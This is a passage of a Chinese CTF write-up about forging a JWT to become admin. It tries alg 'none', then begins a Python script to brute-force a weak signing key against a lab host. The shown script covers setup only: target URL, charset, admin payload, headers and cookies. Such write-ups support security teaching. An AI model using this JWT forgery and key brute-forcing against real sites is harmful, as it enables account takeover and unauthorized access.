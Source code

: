 把 JWT 扔进去解密: (在线解密的网站: [JWT在线解码](https://www.json.cn/jwt))

![1-14.png](1-14.png)

果然在 JWT 中, 那么把 username 改为 admin, 考虑如何伪造 JWT;

先试试不用哈希, 将 `alg` 改为 `none`, 也就是不要签名算法, 那么秘钥也不需要, JWT 第三段直接为空。

> 多数网站会禁止签名为 `none` 的 JWT, 这里不成功, 略过;

那么尝试一下弱秘钥爆破, 写个脚本:

```python
import requests  # 用于发送 HTTP 请求
import jwt       # 用于构造 JWT（JSON Web Token）
import itertools # 用于生成组合爆破的字符排列
import string    # 提供字符集（如 ascii_letters、digits 等）
import concurrent.futures  # 用于多线程处理（ThreadPoolExecutor）

# 目标地址（发起 JWT 请求的目标接口）
url = "http://61.147.171.105:55058/b1g_m4mber"

# 要爆破的字符集：包含 a-z、A-Z、0-9 共62个字符
charset = string.ascii_letters + string.digits  # 等价于 string.ascii_lowercase + string.ascii_uppercase + string.digits

# 最大秘钥长度限制
MAX_LEN = 8

# 构造 JWT 的 payload：{'name': 'admin'}
payload = {"name": "admin"}

# 构造请求头信息，模拟浏览器行为
headers = {
    "User-Agent": "Mozilla/5.0",  # 浏览器标识
    "Referer": "http://61.147.171.105:55058/shopcar",  # 来源页面
    "Connection": "close",
    "Accept": "*/*",
    "Accept-Encoding": "gzip, deflate",
    "Accept-Language": "zh-CN,zh;q=0.8",
}

# 目标接口所需的固定 Cookie
base_cookies = {
    "_xsrf": "2|575b4d19|5aa23ea6a3fbbdeb9239a623b21d4a3d|1753406110",
    "commodity_id": '2|1:0|10:1753409359|12:commodity_id|4:Mw==|097b624765b25650e501ebb73f2deb3ffa6f0dde9e505c5a7b3e13dbef190a81',
}

# 标志变量
found = False

```